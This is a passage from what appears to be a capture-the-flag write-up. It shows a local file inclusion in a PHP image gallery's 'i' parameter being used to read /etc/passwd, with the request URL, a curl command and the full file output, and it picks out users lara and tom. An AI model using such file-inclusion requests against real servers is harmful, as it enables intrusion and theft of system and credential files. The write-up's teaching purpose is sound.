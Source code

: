 ![EPT To Vegas][image:eptToVegas.jpg]

The text on it says:
> !!IMPORTANT!!
>
> Remember to put password.txt in /home/lara

Could be important going on.

After opening one of the images in the gallery, the URL changes to:
```
http://54.194.16.253/image.php?i=phpGallery_images/eptToVegas.JPG
```

### LFI
The parameter `-i` needs both directory and file. Perhaps this is vulnerable to `LFI`[2] (`Local File Inclusion`)? Checking with `/etc/passwd`:
```
http://54.194.16.253/image.php?i=/etc/passwd
```

This returns the content of `/etc/passwd`!
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:102:105::/nonexistent:/usr/sbin/nologin systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin syslog:x:104:111::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin _chrony:x:113:120:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false fwupd-refresh:x:114:121:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin ftp:x:115:123:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin postfix:x:116:124::/var/spool/postfix:/usr/sbin/nologin tom:x:1001:1001::/home/tom:/bin/sh lara:x:1002:1002::/home/lara:/bin/sh
```

(A prettier formated version is in the source of the page, or you could just use `curl http://54.194.16.253/image.php?i=/etc/passwd`).

Noticing a couple of the users:
```
root:x:0:0:root:/root:/bin/bash
tom:x:1001:1001::/home/tom:/bin/sh
lara:x:1002:1002::/home/lara:/bin/sh
```
